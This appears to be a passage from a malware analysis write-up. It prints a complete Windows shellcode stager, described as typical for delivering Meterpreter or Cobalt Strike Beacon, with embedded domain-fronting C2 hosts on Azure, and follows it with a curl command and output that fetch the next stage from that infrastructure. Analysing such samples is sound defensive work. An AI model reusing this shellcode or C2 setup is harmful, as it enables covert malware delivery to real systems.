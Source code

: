 ```
"\xfc\xe8\x89\x00\x00\x00`\x89\xe51\xd2d\x8bR0\x8bR\x0c\x8bR\x14\x8br(\x0f\xb7J&1\xff1\xc0\xac<a|\x02, \xc1\xcf\r\x01\xc7\xe2\xf0RW\x8bR\x10\x8bB<\x01\xd0\x8b@x\x85\xc0tJ\x01\xd0P\x8bH\x18\x8bX \x01\xd3\xe3<I\x8b4\x8b\x01\xd61\xff1\xc0\xac\xc1\xcf\r\x01\xc78\xe0u\xf4\x03}\xf8;}$u\xe2X\x8bX$\x01\xd3f\x8b\x0cK\x8bX\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89D$$[[aYZQ\xff\xe0X_Z\x8b\x12\xeb\x86]hnet\x00hwiniThLw&\x07\xff\xd5\xe8\x00\x00\x00\x001\xffWWWWWh:Vy\xa7\xff\xd5\xe9\xa4\x00\x00\x00[1\xc9QQj\x03QQh\xbb\x01\x00\x00SPhW\x89\x9f\xc6\xff\xd5P\xe9\x8c\x00\x00\x00[1\xd2Rh\x002\xc0\x84RRRSRPh\xebU.;\xff\xd5\x89\xc6\x83\xc3Ph\x803\x00\x00\x89\xe0j\x04Pj\x1fVhuF\x9e\x86\xff\xd5_1\xffWWj\xffSVh-\x06\x18{\xff\xd5\x85\xc0\x0f\x84\xca\x01\x00\x001\xff\x85\xf6t\x04\x89\xf9\xeb\th\xaa\xc5\xe2]\xff\xd5\x89\xc1hE!^1\xff\xd51\xffWj\x07QVPh\xb7W\xe0\x0b\xff\xd5\xbf\x00/\x00\x009\xc7u\x07XP\xe9{\xff\xff\xff1\xff\xe9\x91\x01\x00\x00\xe9\xc9\x01\x00\x00\xe8o\xff\xff\xff/nbCI\x00\xd3\xedRm\x1c\xb0\x99Q1\xf70\xc4\x86'\x03\x9c\x1a\xa2zM1\xe4\x00z\xc4\xf3\xe0\x9a\x9fM\xb8Y\xfc\x1e{0O\x1c\x94\x104\xcd\xd4\xa0\xa1\xfd\xf4\xb2&\x16\xf1FJ\xab\xf1@\x06\xac\xd6\x80\x99N@\xdf\xa2(\x05\xca\x07\xfe\xd7P\x90\x00User-Agent: Microsoft-CryptoAPI/6.1\r\nHost: novote.azureedge.net\r\n\x00\xcc\x17\x97\x1d\xcd\xdd\xb6v@\xee\x1eX\xb0\x0e\xd8\xc8\x970MQdH\xb4\xda\x0f\xf0\xa7F\xe6^\xf3^\xfd\xf0\xa4\xdc\x011\x84\xe3o\x8b\xcbf6:\x0e\xfd\xd4O\x00\xf8<\x1dm\xa7!\xc1\x0c\xad\xbf\x0b\x07\xedu\x8a\xd1\xdaU\xe6\xdd3cR\xb8(\xeb\x9f=t\x98OP\xbd\x19\x12\xe3Fz6\x1d\x85\xef\xaeZ\xd8}\xb5sJ\xfa\x94\xb4\xb5\x8a\xc0fH:<{\x8d\x0e\x9a\x86(\\i\xbf@\xa5\xeaP\x8a\x80C\xe2\x83\x9d\xa3\x9f\xe1$\xfb\xb2\xfa\x9f2\xc4\xfbf\xbc\x00\xb45#s\xa9\xdc\xf3)\x00\xbf\xd2\xb1FU'\xccI\xbf\xe9\xadQ\xc4*6\xa9\x1fj\t6\x9f\xde\t\x0bV\x12va@\xa3>\xd5\x9c6\xeb\x9eK6\x89\xd7\xb9q\x14\xd2Z\x85\x10\xbbf\x988\x12r\xd4k\x89s\x90\t\x95\x83,s\x01\xbeY,*C\x11$\xac\xfa\x1cm\xab~\x17\xdak\xcd\xa8\xab\xb0\xce\x00h\xf0\xb5\xa2V\xff\xd5j@h\x00\x10\x00\x00h\x00\x00@\x00WhX\xa4S\xe5\xff\xd5\x93\xb9\x00\x00\x00\x00\x01\xd9QS\x89\xe7Wh\x00 \x00\x00SVh\x12\x96\x89\xe2\xff\xd5\x85\xc0t\xc6\x8b\x07\x01\xc3\x85\xc0u\xe5X\xc3\xe8\x89\xfd\xff\xffto-do-cdn.microsoft.com\x003\x1c\xbe\xda"

```

Looks like this data is the shellcode that will be injected, it is your standard shellcode that will download and execute something in memory frequently used for delivering Meterpreter or CobaltStrike Beacon.

The traffic is abusing a domain frontable azure domain to allow their traffic to be rerouted within azure, this isn't a new technique[3] and has been seen used by CobaltStrike before.

```
# curl -k https://to-do-cdn.microsoft.com/nbCI --header "Host: novote.azureedge.net" --user-agent "Microsoft-CryptoAPI/6.1" -O -v
* TCP_NODELAY set
* Connected to to-do-cdn.microsoft.com (152.199.4.133) port 443 (#0)
* ALPN, offering h2
* ALPN, offering http/1.1
* successfully set certificate verify locations:
* ALPN, server accepted to use h2
* Server certificate:
*  subject: CN=to-do-cdn.microsoft.com
*  start date: Mar  6 08:05:55 2019 GMT
*  expire date: Mar  6 08:05:55 2021 GMT
*  issuer: C=US; ST=Washington; L=Redmond; O=Microsoft Corporation; OU=Microsoft IT; CN=Microsoft IT TLS CA 4
*  SSL certificate verify ok.
* Using HTTP2, server supports multi-use
* Connection state changed (HTTP/2 confirmed)
* Copying HTTP/2 data in stream buffer to connection buffer after upgrade: len=0
} [5 bytes data]
* Using Stream ID: 1 (easy handle 0x559466f72e00)
} [5 bytes data]
> GET /nbCI HTTP/2
> Host: novote.azureedge.net
> user-agent: Microsoft-CryptoAPI/6.1
> accept: */*
>
{ [5 bytes data]
* TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
{ [249 bytes data]
* TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
```